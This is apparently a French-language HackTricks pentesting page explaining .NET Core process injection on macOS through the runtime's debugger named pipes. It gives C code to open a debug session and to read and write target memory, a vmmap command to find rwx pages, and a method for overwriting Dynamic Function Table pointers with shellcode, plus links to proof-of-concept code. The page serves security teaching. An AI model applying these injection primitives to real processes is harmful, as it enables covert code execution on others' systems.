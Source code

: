 # Injection d'applications .Net sur macOS

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? Ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Débogage de .NET Core <a href="#net-core-debugging" id="net-core-debugging"></a>

### **Établir une session de débogage** <a href="#net-core-debugging" id="net-core-debugging"></a>

[**dbgtransportsession.cpp**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp) est responsable de la gestion de la **communication** entre le débogueur et le débogueur.\
Il crée deux tubes nommés par processus .Net dans [dbgtransportsession.cpp#L127](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L127) en appelant [twowaypipe.cpp#L27](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/debug-pal/unix/twowaypipe.cpp#L27) (l'un se terminera par **`-in`** et l'autre par **`-out`** et le reste du nom sera identique).

Ainsi, si vous accédez au répertoire **`$TMPDIR`** de l'utilisateur, vous pourrez trouver des **fifos de débogage** que vous pourrez utiliser pour déboguer des applications .Net :

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La fonction [**DbgTransportSession::TransportWorker**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L1259) gérera la communication depuis un débogueur.

La première chose qu'un débogueur doit faire est de **créer une nouvelle session de débogage**. Cela se fait en **envoyant un message via le tube de sortie** commençant par une structure `MessageHeader`, que nous pouvons récupérer à partir de la source .NET :
```c
struct MessageHeader
{
MessageType   m_eType;        // Type of message this is
DWORD         m_cbDataBlock;  // Size of data block that immediately follows this header (can be zero)
DWORD         m_dwId;         // Message ID assigned by the sender of this message
DWORD         m_dwReplyId;    // Message ID that this is a reply to (used by messages such as MT_GetDCB)
DWORD         m_dwLastSeenId; // Message ID last seen by sender (receiver can discard up to here from send queue)
DWORD         m_dwReserved;   // Reserved for future expansion (must be initialized to zero and
// never read)
union {
struct {
DWORD         m_dwMajorVersion;   // Protocol version requested/accepted
DWORD         m_dwMinorVersion;
} VersionInfo;
...
} TypeSpecificData;

BYTE                    m_sMustBeZero[8];
}
```
Dans le cas d'une demande de nouvelle session, cette structure est remplie comme suit:
```c
static const DWORD kCurrentMajorVersion = 2;
static const DWORD kCurrentMinorVersion = 0;

// Set the message type (in this case, we're establishing a session)
sSendHeader.m_eType = MT_SessionRequest;

// Set the version
sSendHeader.TypeSpecificData.VersionInfo.m_dwMajorVersion = kCurrentMajorVersion;
sSendHeader.TypeSpecificData.VersionInfo.m_dwMinorVersion = kCurrentMinorVersion;

// Finally set the number of bytes which follow this header
sSendHeader.m_cbDataBlock = sizeof(SessionRequestData);
```
Une fois construit, nous **l'envoyons à la cible** en utilisant l'appel système `write`:
```c
write(wr, &sSendHeader, sizeof(MessageHeader));
```
Suivant notre en-tête, nous devons envoyer une structure `sessionRequestData` qui contient un GUID pour identifier notre session :
```c
// All '9' is a GUID.. right??
memset(&sDataBlock.m_sSessionID, 9, sizeof(SessionRequestData));

// Send over the session request data
write(wr, &sDataBlock, sizeof(SessionRequestData));
```
Après avoir envoyé notre demande de session, nous **lisons depuis le tube `out` un en-tête** qui indiquera **si** notre demande d'établissement d'une session de débogage a été **réussie** ou non :
```c
read(rd, &sReceiveHeader, sizeof(MessageHeader));
```
### Lire la mémoire

Avec une session de débogage établie, il est possible de **lire la mémoire** en utilisant le type de message [`MT_ReadMemory`](https://github.com/dotnet/runtime/blob/f3a45a91441cf938765bafc795cbf4885cad8800/src/coreclr/src/debug/shared/dbgtransportsession.cpp#L1896). Pour lire une partie de la mémoire, le code principal nécessaire serait :
```c
bool readMemory(void *addr, int len, unsigned char **output) {

*output = (unsigned char *)malloc(len);
if (*output == NULL) {
return false;
}

sSendHeader.m_dwId++; // We increment this for each request
sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
sSendHeader.m_eType = MT_ReadMemory; // The type of request we are making
sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to read from
sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
sSendHeader.m_cbDataBlock = 0;

// Write the header
if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Read the response header
if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Make sure that memory could be read before we attempt to read further
if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
return false;
}

memset(*output, 0, len);

// Read the memory from the debugee
if (read(rd, *output, sReceiveHeader.m_cbDataBlock) < 0) {
return false;
}

return true;
}
```
Le code de preuve de concept (POC) se trouve [ici](https://gist.github.com/xpn/95eefc14918998853f6e0ab48d9f7b0b).

### Écrire dans la mémoire
```c
bool writeMemory(void *addr, int len, unsigned char *input) {

sSendHeader.m_dwId++; // We increment this for each request
sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
sSendHeader.m_eType = MT_WriteMemory; // The type of request we are making
sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to write to
sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
sSendHeader.m_cbDataBlock = len;

// Write the header
if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Write the data
if (write(wr, input, len) < 0) {
return false;
}

// Read the response header
if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Ensure our memory write was successful
if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
return false;
}

return true;

}
```
Le code POC utilisé pour cela peut être trouvé [ici](https://gist.github.com/xpn/7c3040a7398808747e158a25745380a5).

### Exécution de code .NET Core <a href="#net-core-code-execution" id="net-core-code-execution"></a>

La première chose à faire est d'identifier, par exemple, une région de mémoire avec **`rwx`** en cours d'exécution pour enregistrer le shellcode à exécuter. Cela peut être facilement fait avec :
```bash
vmmap -pages [pid]
vmmap -pages 35829 | grep "rwx/rwx"
```
Ensuite, pour déclencher l'exécution, il serait nécessaire de connaître un endroit où un pointeur de fonction est stocké pour le remplacer. Il est possible de remplacer un pointeur dans la **Table des fonctions dynamiques (TFD)**, utilisée par le runtime .NET Core pour fournir des fonctions d'aide à la compilation JIT. Une liste des pointeurs de fonction pris en charge peut être trouvée dans [`jithelpers.h`](https://github.com/dotnet/runtime/blob/6072e4d3a7a2a1493f514cdf4be75a3d56580e84/src/coreclr/src/inc/jithelpers.h).

Dans les versions x64, cela est simple en utilisant la technique de **recherche de signature** similaire à mimikatz pour rechercher dans **`libcorclr.dll`** une référence au symbole **`_hlpDynamicFuncTable`**, que nous pouvons déréférencer :

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

Il ne reste plus qu'à trouver une adresse à partir de laquelle commencer notre recherche de signature. Pour cela, nous utilisons une autre fonction de débogueur exposée, **`MT_GetDCB`**. Cela renvoie plusieurs informations utiles sur le processus cible, mais dans notre cas, nous nous intéressons à un champ renvoyant l'**adresse d'une fonction d'aide**, **`m_helperRemoteStartAddr`**. En utilisant cette adresse, nous savons exactement **où `libcorclr.dll` est situé** dans la mémoire du processus cible et nous pouvons commencer notre recherche de la TFD.

En connaissant cette adresse, il est possible de remplacer le pointeur de fonction par notre propre shellcode.

Le code POC complet utilisé pour l'injection dans PowerShell peut être trouvé [ici](https://gist.github.com/xpn/b427998c8b3924ab1d63c89d273734b6).

## Références

* Cette technique a été tirée de [https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/](https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? Ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
